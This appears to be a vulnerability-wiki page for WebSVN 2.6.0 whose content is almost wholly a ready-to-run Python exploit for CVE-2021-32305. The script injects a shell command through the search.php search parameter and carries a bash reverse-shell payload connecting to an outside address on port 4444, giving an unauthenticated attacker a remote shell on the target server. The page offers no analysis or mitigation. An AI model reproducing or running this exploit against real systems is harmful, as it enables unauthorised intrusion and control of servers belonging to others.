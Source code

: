 <languages /> <translate>

漏洞影響
--------

</translate> Version: 2.6.0

EXP
---

    # Exploit Title: Websvn 2.6.0 - Remote Code Execution (Unauthenticated)
    # Date: 20/06/2021
    # Exploit Author: g0ldm45k
    # Vendor Homepage: https://websvnphp.github.io/
    # Software Link: https://github.com/websvnphp/websvn/releases/tag/2.6.0
    # Version: 2.6.0
    # Tested on: Docker + Debian GNU/Linux (Buster)
    # CVE : CVE-2021-32305

    import requests
    import argparse
    from urllib.parse import quote_plus

    PAYLOAD = "/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.149/4444 0>&1'"
    REQUEST_PAYLOAD = '/search.php?search=";{};"'

    parser = argparse.ArgumentParser(description='Send a payload to a websvn 2.6.0 server.')
    parser.add_argument('target', type=str, help="Target URL.")

    args = parser.parse_args()

    if args.target.startswith("http://") or args.target.startswith("https://"):
        target = args.target
    else:
        print("[!] Target should start with either http:// or https://")
        exit()

    requests.get(target + REQUEST_PAYLOAD.format(quote_plus(PAYLOAD)))

    print("[*] Request send. Did you get what you wanted?")